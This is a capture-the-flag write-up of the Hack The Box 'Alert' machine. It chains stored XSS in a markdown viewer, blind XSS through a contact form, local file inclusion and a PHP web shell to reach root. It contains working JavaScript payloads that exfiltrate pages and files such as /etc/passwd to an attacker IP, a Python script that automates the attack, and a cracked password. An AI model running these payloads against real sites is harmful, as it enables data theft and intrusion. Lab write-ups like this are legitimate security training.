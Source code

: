 ```yaml
---
layout: post
title:  "[HTB] Alert"
date:   2024-12-06
categories: CTF
---
```


As usual let us start with our nmap scan

---
└─$ nmap 10.10.11.44          
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 03:48 EST
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
---

Seeing that we only have ports 22 and 80 here, highly likely our initial access will come from port 80. So let us visit port 80 and see that this is a markdown viewer of some sort wherein we can upload md files.

![alt text](/assets/uploads/htb-alert/image.png)

Trying to upload an md file, we see that it doesnt filter out any html and script tags, and it generates a share link for us. So we can leverage this by creating an XSS payload and sending this to the admin side. But how can we send this to the admin side?  

![alt text](/assets/uploads/htb-alert/image-2.png)

![alt text](/assets/uploads/htb-alert/image-1.png)

Upon looking at the web application, we see that there is a contact us feature which is exactly what we need. 

![alt text](/assets/uploads/htb-alert/image-3.png)

We can more or less deduce that our path would be to create a blind XSS payload and send it to the admin side and gain more information about the machine. 

To try this hypothesis, we create a basic blind xss payload as follows `<script src="//10.10.14.32/zw1tt3r1on.test"></script>`. When we try and upload this file and share it to the admin side by the contact us page, we see that we get a callback from the server

![alt text](/assets/uploads/htb-alert/image-4.png)

From here, we can craft a specific payload to try and fetch the homepage and send the data back to us

---
<script>
fetch("http://alert.htb/")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

We discover now that there is a hidden endpoint called "messages" which corresponds to messages.php.

![alt text](/assets/uploads/htb-alert/image-5.png)

Trying to fetch this messages.php gives us an interesting parameter called "file". 

<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-6.png)

Testing this file parameter, we discover that this is vulnerable to a LFI. We can now use this to fetch files within the machine. Sample below is fetching the /etc/passwd file on the machine.

---
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-7.png)

Now we just need to enumerate the machine and look for interesting files. For this, I create a very simple python script to automatically upload the md file and send the link to the contact us page as shown below

---
import requests, re

def send_to_contact(file_name):
    burp0_url = "http://alert.htb:80/contact.php"
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://alert.htb", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://alert.htb/index.php?page=contact&status=Message%20sent%20successfully!", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    burp0_data = {"email": "jl@jl.com", "message": file_name}
    requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


def send_md_request(file_path):
    burp0_url = "http://alert.htb:80/visualizer.php"
    burp0_headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://alert.htb",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryJFBXbjnjqVK66x3C",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://alert.htb/index.php?page=alert",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }
    burp0_data = f"""------WebKitFormBoundaryJFBXbjnjqVK66x3C\r\nContent-Disposition: form-data; name="file"; filename="jltest.md"\r\nContent-Type: text/markdown\r\n\r\n<script>
fetch("http://alert.htb/messages.php?file={file_path}")
  .then(response => response.text()) // Convert the response to text
  .then(data => {{
    fetch("http://10.10.14.32/?d1=" + encodeURIComponent(data)); // Exfiltrate data
  }})
  .catch(error => console.error("Error fetching the messages:", error));
</script>\r\n------WebKitFormBoundaryJFBXbjnjqVK66x3C--\r\n"""
    response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

    regex_template = r'href="(http://alert\.htb/visualizer\.php\?link_share=[^"]+)"'
    match = re.search(regex_template, str(response.text))
    url = match.group(1)
    print('sending url: ', url)
    send_to_contact(url)

while True:
    send_md_request(input('enter path: '))

---

![alt text](/assets/uploads/htb-alert/image-8.png)

Looking at the 000-default.conf file, we see that there is another subdomain called statistics

![alt text](/assets/uploads/htb-alert/image-10.png)

![alt text](/assets/uploads/htb-alert/image-9.png)

Visiting the statistics subdomain gives us a basic auth login 

![alt text](/assets/uploads/htb-alert/image-11.png)

Since we have a way to read local files within the machine, we can read the .htpasswd file of statistics.alert.htb at /var/www/statistics.alert.htb/.htpasswd and we get the credentials of the user "albert"

![alt text](/assets/uploads/htb-alert/image-13.png)

![alt text](/assets/uploads/htb-alert/image-12.png)

Cracking this hash, we get the password is "manchesterunited". 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_28_45.png>)

We can now use this to login using ssh and we get our user flag

![alt text](/assets/uploads/htb-alert/image-16.png)

Looking for possible privilege escalation pathways, we observe that there is a php process running serving files on port 8080 as root. 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_42_12.png>)

So we port forward this using ssh and take a look at what it is exactly running

![alt text](/assets/uploads/htb-alert/image-14.png)

![alt text](/assets/uploads/htb-alert/image-15.png)

Since it is serving files on the /opt/website-monitor directory, we just need to find a way to write something in the /opt/website-monitor and get a php shell.

![alt text](/assets/uploads/htb-alert/image-17.png)

Since we know that we can write in the config and monitors folder, let us quickly write a php web shell and visit that page 

![alt text](/assets/uploads/htb-alert/image-18.png)

![alt text](/assets/uploads/htb-alert/image-19.png)

From here we can just get a reverse shell using our web shell and get the root flag, or just simply cat the root flag using this web shell

![alt text](/assets/uploads/htb-alert/image-20.png)

Pwned!!

![alt text](/assets/uploads/htb-alert/image-21.png)
